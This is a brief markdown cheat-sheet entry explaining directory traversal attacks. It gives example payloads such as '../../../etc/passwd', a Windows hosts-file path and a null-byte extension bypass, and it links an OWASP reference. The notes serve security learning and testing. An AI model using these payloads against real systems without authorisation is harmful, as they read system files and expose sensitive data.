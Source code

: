 ## DirectoryTraversal

access a different file than the one intended by manipulating paths
`https://example.com/?page=index.html`

page param vulnerable? 

`page=../../../../../../../etc/passwd`
`../../../../../../../windows/system32/drivers/etc/hosts`
use **../** to traverse backwords in hierarchy

%00 use null byte to bypass file extensions
`https://example.com/vulnerable.php?page=../../../../../../../etc/passwd%00`

also try url encoding


Ref 
[CHEAT SHEET](https://cheatsheetseries.owasp.org/cheatsheets/Symfony_Cheat_Sheet.html#directory-traversal)